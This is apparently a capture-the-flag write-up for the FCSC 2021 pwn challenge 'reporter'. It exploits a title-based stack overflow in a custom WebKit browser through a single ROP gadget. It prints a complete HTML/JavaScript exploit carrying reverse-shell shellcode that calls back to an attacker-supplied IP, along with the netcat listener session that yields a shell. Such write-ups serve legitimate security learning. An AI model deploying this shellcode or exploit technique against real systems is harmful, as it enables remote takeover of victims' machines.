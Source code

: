 +++
title = "[FCSC 2021 - pwn] reporter"
tags = ["ctf", "ret2school", "FCSC", "0p", "0poss", "2021"]
date = "2021-05-03"
+++

# Reporter (pwn - 499 pts)

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
> http://challenges2.france-cybersecurity-challenge.fr:4009/

## Testing the water
As soon as I saw this description, I got hyped, "Cool a browser exploit !" I thought. "It's the perfect occasion to learn more about WebKit and JavaScriptCore"... What a fool.

Checksec gives us the following output :
![](@attachment/Clipboard_2021-04-30-20-43-43.png)

Keep in mind that there is no NX so we assume that all pages, including the stack and the heap are executable on the remote server.

`ldd fcsc_browser` terminated me :
```bash
libwebkit2gtk-4.0.so.37 => /lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f85355c3000)
libjavascriptcoregtk-4.0.so.18 => /lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f2ba5525000)
```
So no exploit for a custom version of WebKit or JSCore...

Jumping in Binary Ninja, we can see a bunch of C++ functions
![](@attachment/Clipboard_2021-04-30-20-55-21.png)

Starting from the top, we have the `addBrowser` function which uses the `memcpy` function to concatenate "FCSC Browser - " with the input string using the size of the input string. Keep that in mind.
![](@attachment/Clipboard_2021-04-30-21-01-16.png)

The `webview_title_change` function calls the `addBrowser` function with the utf8-decoded (with the `decode_utf8` function) page title retrieved with `webkit_web_view_get_title` function.
![](@attachment/Clipboard_2021-04-30-21-01-46.png)

Well then... this is pretty straightforward. Since we control the page title we have an overflow in the `addBrowser` function. That's the good part. The annoying part is that we can't use null bytes since it would terminate our payload.

## Discovering the bug
Create a `index.html` file, run `python3 -m http.server` and start `gdb` with `fcsc_browser` as parameter and run : `r 0.0.0.0:8000` for the browser to load our `index.html` straight away.
Here's its content :
```html
<script>
	var payload = "a";
	payload += "A".repeat(8);
	payload += "B".repeat(8);
	payload += "C".repeat(8);
	payload += "D".repeat(8);
	payload += "E".repeat(8);
	payload += "F".repeat(8);
	payload += "G".repeat(8);
	payload += "H".repeat(8);
	payload += "I".repeat(8);
	payload += "J".repeat(8);
	payload += "K".repeat(8);
	payload += "L".repeat(8);
	payload += "M".repeat(8);
	payload += "N".repeat(8);
	payload += "O".repeat(8);
	payload += "P".repeat(8);
	payload += "Q".repeat(8);
	payload += "R".repeat(8);

	document.title = payload;
</script>
```
We simply use JavaScript to create an "egg finder" that will find how many bytes are required in the title for us to overwrite the return address of the `addBrowser` function.
The little "a" at the beginning is just to make sure that the rest of the payload is 8-bytes aligned, making it easier to read (or maybe only prettier).

Once the browser ran in `gdb`, it segfault at the return of the function and we can see 8 "R"s at the top of the stack... We control the return address at `RRRRRRRR`.
![](@attachment/Clipboard_2021-05-01-22-23-50.png)

## Crafting the ropchain
"Easy !" you would think, as I did, but the absence of a null byte prevents you from crafting any ropchain longer than a single quadword (8 bytes) since pretty much every address contains several null bytes. So either we have to find another vuln that we can chain with this overflow (which I didn't find), or... you have to find a sort of "one ROP gadget" in the binary to jump on our page title.
In order to find every pointer to our input that we can set on top of the stack before `ret`ting, I ran a `gef config context.nb_lines_stack 500; context stack` to display 500 stack addresses containing a pointer to our input. Here they are :
```bash
0x00007fffffffd510│+0x0028: 0x0000000000a2c610  →  "FCSC Browser - aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEE[...]"	 ← $rax
0x00007fffffffd530│+0x0048: 0x00000000006d1b00  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd550│+0x0068: 0x00000000009c4f20  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffd578│+0x0090: 0x00007fffffffd6f8  →  0x4c4c4c4c4c4c4c4b
0x00007fffffffd5a0│+0x00b8: 0x0000000000ae7090  →  "aAAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFG[...]"
0x00007fffffffdab0│+0x05c8: 0x00007fffe6efdd3b  →  "0.0.0.0:8000/"
```
The first one isn't viable since "FCSC Browser" aren't valid instructions.
I kept the last one in mind "just in case". We'll maybe have to buy a domain name containing an alphanumerical reverse-shell shellcode...
Using ropper, you can search for a specific semantic such as `reg+=value`, so we'll be searching for `rsp+=[72,104,152,184,1480]`
```
$ ropper --file fcsc_browser --semantic "rsp+=72"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=104"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=152"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=184"
[INFO] 0 gadgets found

$ ropper --file fcsc_browser --semantic "rsp+=1480"
[INFO] 0 gadgets found
```
No gadget found. At this point, I entered a phase of despair and since the first stage of grief is denial, I started looking manually for gadgets that increased `rsp` as I wanted before executing `ret` with `ropper --file fcsc_browser`, just in case `ropper` had a bug on the `--semantic` option. Obviously I didn't find any gadget that would increment `rsp` for us before executing `ret`... but I found something quite interesting : `0x000000000040d593: jmp qword ptr [rax];`. Since `rax` is pointing to a heap pointer on the stack, itself pointing to the title, I started looking for something like something like `add BYTE PTR [rax],al` (which is pretty common since its opcode is `00 00`) in order to increment the heap pointer before `jmp qword ptr`ing on it... and there it was... the one gadget :
`0x0000000000403edf: add byte ptr [rax], ah; jmp qword ptr [rax];`
Please take a moment to admire the gadget.

Replace the all the `R` with `payload += String.fromCharCode(0xdf, 0x3e, 0x40);` in order to jump on our gadget.
![](@attachment/Clipboard_2021-05-01-22-59-07.png)
Only one nibble, in this case the four heaviest bits, of the `ah` reg is controlled by the ASLR so we'll just have to send multiple times our exploit in case it doesn't work straight away.
I found [this reverse-shell shellcode](http://shell-storm.org/shellcode/files/shellcode-857.php) and luckily enough, it didn't have any null byte in it. Once modified, craft the final exploit :
```html
<script>
	var payload = "";

	payload += "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a";
	payload += "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0";
	payload += "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24";
	payload += "\x02\x05\x39\xc7\x44\x24\x04" + String.fromCharCode(insert, your, IP, address) + "\x48\x89\xe6\x6a\x10";
	payload += "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48";
	payload += "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a";
	payload += "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54";
	payload += "\x5f\x6a\x3b\x58\x0f\x05";

	payload = payload.padStart(136, "\x90");
	payload += "\x90";
  // 0x0000000000403edf
	payload += String.fromCharCode(0xdf, 0x3e, 0x40);

	document.title = payload;
</script>
```
The `payload.padStart(136, "\x90")` will serve a nop sled to our shellcode to increase the chances of success.
Once the exploit hosted on any IP, rerun a `python3 -m http.server` and send the link.
After a couple tries (actually fifteen), I got my shell :
```bash
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from received!
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls
fcsc_browser
flag
main.py
run.sh
static
templates
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```

Yay !

## Conclusion

There's always a one gadget waiting for you, finding it depends on how much time you want to invest searching it

